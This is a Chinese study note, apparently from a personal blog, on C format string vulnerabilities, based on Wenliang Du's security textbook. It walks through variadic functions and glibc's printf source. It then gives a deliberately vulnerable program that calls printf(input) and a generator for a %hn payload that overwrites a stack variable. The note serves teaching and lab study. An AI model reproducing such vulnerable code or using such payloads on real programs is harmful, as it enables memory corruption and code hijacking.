




## 前言

来源：《Computer Security》A Hands-on Approach   — Wenliang Du

这次是我们之前比较熟悉的格式化字符串。《c语言现代方法》第三章，用了一个次，叫“模式匹配”。

从最开始的`printf("hello world.")` ，这个函数被我们使用了很多遍。

但它从安全的角度来看，还能下面这么用。

---

[toc]

## 摘要与总结

**格式化字符串漏洞，可以用来打印内存内容，修改允许修改的指定地址内存内容**，比如栈区域。（其他区域能否修改不知道。比如代码段是不能被写入的）

1. 查看内容：**也许**，会查看到有秘密的信息。
2. 修改指定内存内容的缺点在于，修改何处的内容：即使没有地址随机化，没有参照，我很难知道返回地址的确切内存位置。

<br>

<br>

## 参数个数可变

很久之前，我便好奇，`printf`这个函数是如何做到，**参数个数可变？**

首先，不可能是重载。C语言还不支持重载吧。

当后来看到函数的参数传递的时候，我似乎知道那么一丢丢了。

可以参考：[C 可变参数](https://www.runoob.com/cprogramming/c-variable-arguments.html)

:cucumber: **照葫芦画瓢，大概会用就好**，暂时可以不追究细节。　

```c
/**
 * 参数个数可变
*/

#include <stdio.h>
#include <stdarg.h>

void myprintf(int narg, ...){

    va_list ap;

    /*指针向后移动narg类型的长度，指向第一个参数*/
    va_start(ap,narg);
    for (int i = 0; i < narg; i++){
        printf("%d ",va_arg(ap,int));/*返回一个int型参数，指针向后移动int类型的长度，指向下一个参数*/
        printf("%.2f ",va_arg(ap,double));/*返回一个int型参数，指针向后移动double类型的长度，指向下一个参数*/
    }
    va_end(ap);/*干啥的*/
}

int main(void){
    myprintf(2,2,2.5,3,3.5);
    myprintf(1,0,3.4);
    return 0;
}
```


## printf函数

我不太懂汇编，底层的内容我也看不了。我们简单看下。

先来估计下：它的原型可能是这样的：`printf(format,...)`。<font color=blue>format中字符正常打印，当遇到以%开头的转换说明的时候，从参数中模式匹配出一个参数，打印出来，直到format结束。</font>

如果再追问一步，是如何打印出来的？

我不知道，估摸着是调用更细粒度的打印函数，中间估计有系统调用，毕竟和硬件相关。

### 函数原型

我们首先找到函数原型。

```c
# /usr/include/x86_64-linux-gnu/bits/stdio2.h
__fortify_function int
printf (const char *__restrict __fmt, ...)
{
  return __printf_chk (__USE_FORTIFY_LEVEL - 1, __fmt, __va_arg_pack ());
}
```

1. 一眼望过去，好像“熟人”不多。`const`我不介绍了，它用来限制字符串不能被修改。可以加的地方都加上，多多益善。

2. `__restrict`，和`restrict` 有点像。估计不是同一个，也是亲戚。我们看下`restrict` 。这玩意叫受限指针。它告诉编译器，所有修改该指针所指向内存中内容的操作都必须通过该指针来修改,而不能通过其它途径(其它变量或指针)来修改;　

   可以参考《C语言程序设计现代方法》17.8节；或者参考：[C语言中restrict关键字学习](https://blog.csdn.net/llf021421/article/details/8092602)

3. `__fortify_function` ，干啥的不知道。我们之前见过`fortify` 在这里[linux程序的常用保护机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)

   > fority其实非常轻微的检查，用于检查是否存在缓冲区溢出的错误。适用情形是程序采用大量的字符串或者内存操作函数，如memcpy，memset，stpcpy，strcpy，strncpy，strcat，strncat，sprintf，snprintf，vsprintf，vsnprintf，gets以及宽字符的变体。

4. `__printf_chk`，可能是`printf`？　

   我搜到了这个，似乎作用不大：[__printf_chk](https://refspecs.linuxbase.org/LSB_4.1.0/LSB-Core-generic/LSB-Core-generic/libc---printf-chk-1.html)

   源码被编译到动态库中，看不到源码，得去找下源码。

   首先我们得知道，[我的系统使用什么C库版本？](https://qastack.cn/unix/120380/what-c-library-version-does-my-system-use)

   

   我们下载源码[The GNU C Library (glibc)](https://www.gnu.org/software/libc/)

   我们可以看到如下所示：

   ```c
   #include <stdarg.h>
   #include <libio/libioP.h>
   
   
   /* Write formatted output to stdout from the format string FORMAT.  */
   int
   ___printf_chk (int flag, const char *format, ...)
   {
     /* For flag > 0 (i.e. __USE_FORTIFY_LEVEL > 1) request that %n
        can only come from read-only format strings.  */
     unsigned int mode = (flag > 0) ? PRINTF_FORTIFY : 0;
     va_list ap;
     int ret;
   
     va_start (ap, format);
     ret = __vfprintf_internal (stdout, format, ap, mode);
     va_end (ap);
   
     return ret;
   }
   ldbl_strong_alias (___printf_chk, __printf_chk)
   ```

   ```c
   #include <libioP.h>
   #include <stdarg.h>
   #include <stdio.h>
   
   #undef printf
   
   /* Write formatted output to stdout from the format string FORMAT.  */
   /* VARARGS1 */
   int
   __printf (const char *format, ...)
   {
     va_list arg;
     int done;
   
     va_start (arg, format);
     done = __vfprintf_internal (stdout, format, arg, 0);
     va_end (arg);
   
     return done;
   }
   
   #undef _IO_printf
   ldbl_strong_alias (__printf, printf);
   ldbl_strong_alias (__printf, _IO_printf);
   ```

   <br>

   <br>

   

## 格式化字符串漏洞

### 查看部分内存内容

   可以参考下这篇文章：[格式化字符串的漏洞利用（Part 1）](https://www.freebuf.com/articles/system/74224.html)

   使用format string 和参数个数不匹配，读取部分内存内容。

   最简单的一个

   ```c
   #include <stdio.h>
   
   int main(void){
       int a = 2;
       double b =2.5;
       char *str = "hello";
       // printf("a=%d,str=%s,b=%ld\n",a,str);
       printf("%s\n%s\n%s\n");
       //printf("%5d",a);
       return 0;
   }
   ```

   <br>

   

### 修改指定的内存内容

这是一个很厉害的作用。加入可以不用缓冲区溢出，直接修改函数的函数地址为system的函数地址。这将是很危险的一件事。但好消息是，地址随机(Address Randomization)，使得无法得知函数的返回地址。

主要是利用%n；

先来一个最简单的程序：

```c
#include <stdio.h>

int main(void){
    int a,b,c; 
    a = b = c = 0x11223344;

    printf("abcd%n\n",&a);
    printf("%x\n",a);

    printf("abcd%hn\n",&b);
    printf("%x\n",b);

    printf("abcd%hhn\n",&c);
    printf("%x\n",c);
}
```



下面内容稍微有些难度，**详细内容见书上。**

   ```c
   /**
    * vul.c
    * 编译：gcc -g -o vul vul.c
    * 
    * 使用：把var的值修改成0x66887799
    * 
    * 尝试知：经过５次%x,可以跳转到input
    * 
    * 已知：var的地址是0xbffecb4
    * 经过调试计算
    * input的地址是：0xbffecb8 = 0xbffecb4+4
    * ebp指向的地址是：0xbffecb8 + 0x70 = 0xbffecb4 + 4 + 0x70
    * eip的地址是：0xbffecb4 + 4 + 0x70 + 4 = 0xBFFED2C
   */
   
   #include &lt;stdio.h&gt;
   
   
   void fmtstr(void){
       char input[10]={0};
       int var = 0x11223344;
   
       printf(&quot;The value of var: %d\n &quot;,var);
       printf(&quot;The address of var: 0x%lx\n &quot;, &amp;var);
   
       fgets(input,sizeof(input)-1,stdin);
       printf(input);
       printf(&quot;%s&quot;,input);
   }
   
   int main(void){
       fmtstr();
       return 0;
   }
   ```

电脑关闭之后，地址改变了，注释我不再修改。

**目的：把var的值修改成0x66887799**

​	

我们用下面的程序，生成format string.

```c
#include <stdio.h>
#include <stdlib.h>

int main(void){
    char buffer[100]="\x16\xec\xff\xbf@@@@\x14\xec\xff\xbf|%.8x|%.8x|%.8x|%.8x|%.26199x%hn|%.4368x%hn";
    FILE *input = fopen("input","w");
    if(!input){
        printf("cannt open input file");
        exit(0);
    }
    fwrite(buffer,sizeof(char),sizeof(buffer),input);
    return 0;
}
```

用生成的format string 作为输入，便能达到效果。



<br>

**如果需要拓展阅读的话**，可以参考：[0x00 printf函数中的漏洞](https://bbs.ichunqiu.com/thread-43624-1-1.html)

我暂时看不懂。

这里面使用了一个工具：IDA，值得注意呦。

<br>
<br>

## 参考文章汇总

[C 可变参数](https://www.runoob.com/cprogramming/c-variable-arguments.html)

[C语言中restrict关键字学习](https://blog.csdn.net/llf021421/article/details/8092602)

[linux程序的常用保护机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)

[我的系统使用什么C库版本？](https://qastack.cn/unix/120380/what-c-library-version-does-my-system-use)

[格式化字符串的漏洞利用（Part 1）](https://www.freebuf.com/articles/system/74224.html)